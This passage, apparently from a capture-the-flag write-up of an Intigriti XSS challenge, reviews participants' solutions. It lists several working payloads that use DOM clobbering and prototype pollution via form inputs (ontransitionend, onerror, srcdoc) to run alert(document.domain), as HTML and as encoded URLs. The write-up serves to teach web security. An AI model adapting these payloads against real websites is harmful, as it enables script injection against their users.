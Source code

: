 ```html
<svg id="homepage" style="transition: outline 1s" tabindex="1"></svg>
<form id="search">
    <input name="__proto__.owner" value="cat" />
    <input name="__proto__.homepage" value="https://crypto.cat" />
    <input name="__proto__.ontransitionend" value="alert(document.domain)" />
</form>
&search=test#homepage
```

This one gets bonus points for being incredibly annoying (alert pops recurrently) 🥇

#### onerror

Finally, one [payload](<https://challenge-0124.intigriti.io/challenge?name=%3Csvg%3E%3Cimage%20id=homepage%3E%3C/svg%3E%3Cform%20id=search%3E%3Cinput%20name=__proto__.onerror%20value=%27alert(document.domain)%27%3E%3Cinput%20name=__proto__.href%20value=x%3E%3Cinput%20name=__proto__.owner%20value=cat%3E%3Cinput%20name=__proto__.homepage%20value=%27https://crypto.cat%27%3E%3C/form%3E&search=test>) polluted `onerror` with the XSS payload. To throw an error, it pollutes `href` with an invalid value, e.g. in the example below, it will try \[and fail] to load `https://challenge-0124.intigriti.io/x`

```html
<svg><image id=homepage></svg>
<form id=search>
    <input name="__proto__.onerror" value="alert(document.domain)" />
    <input name="__proto__.href" value="x" />
    <input name="__proto__.owner" value="cat" />
    <input name="__proto__.homepage" value="https://crypto.cat" />
</form>
```

These last two payloads negated the need for an array/uppercase property because the polluted values weren't already defined!

### Unintended - without polluting owner/homepage

Let's look at the 13 solutions that didn't pollute the `owner` or `homepage`; how did they get around it?

#### Clobbered 'q'

when `q` is set, it gets a real result from the server that satisfies the `owner` and `homepage` checks, so there's no need to pollute these values. Note that we still need to use the array/uppercase trick. The [example below](<https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id%3Dsearch%3E%3Cinput%20name%3Dq%20value%3Dreact-d3%3E%20%3Cinput%20name%3D__proto__.srcdoc.0%20value%3D%22%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E%22%3E%20%3Cinput%20type%3Dsubmit%3E&search=test>) achieved this with a slightly different syntax.

```html
<form id="search">
    <input name="q" value="react-d3" />
    <input name="__proto__.srcdoc.0" value="<script>alert(document.domain)</script>" />
    <input type="submit" />
</form>
```
